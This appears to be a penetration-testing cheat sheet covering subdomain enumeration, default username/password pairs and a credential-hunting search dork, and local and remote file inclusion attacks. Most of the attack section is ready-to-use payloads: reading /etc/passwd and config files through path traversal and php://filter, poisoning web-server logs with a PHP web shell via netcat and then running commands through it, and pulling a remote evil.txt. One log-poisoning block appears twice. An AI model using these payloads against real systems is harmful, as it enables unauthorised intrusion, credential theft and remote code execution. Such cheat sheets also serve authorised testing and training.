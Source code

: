 ```
# Sub domain brut
https://github.com/aboul3la/Sublist3r
```
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Subdomains%20Enumeration.md

#### Default_Weak login
```
site:domain.com password

admin admin
admin password
admin <blank>
admin <servicename>
root root
root admin
root password
root <servicename>
<username if you have> password
<username if you have> admin
<username if you have> username
username <servicename>
```
> list of user names

https://github.com/danielmiessler/SecLists/tree/master/Usernames

#### LFI-RFI
```
#Fimap
fimap -u "http://$IP/example.php?test="

curl -s http://$IP/gallery.php?page=/etc/passwd

#Use in "page="

php://filter/convert.base64-encode/resource=/etc/passwd

http://$IP/maliciousfile.txt%00

php://filter/convert.base64-encode/resource=../config.php

php://filter/convert.base64-encode/resource=../../../../../boot.ini

# LFI Windows

http://$IP/addguestbook.php?LANG=../../windows/system32/drivers/etc/hosts%00

# Contaminating log files
root@kali:~# nc -v $IP 80
$IP: inverse host lookup failed: Unknown host
(UNKNOWN) [$IP] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?> 

# Contaminating log files
[root:~]# nc -v $IP 80
$IP: inverse host lookup failed: Unknown host
(UNKNOWN) [$IP] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?>

http://$IP/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig

# RFI:
http://$IP/addguestbook.php?LANG=http://$IP:31/evil.txt%00
```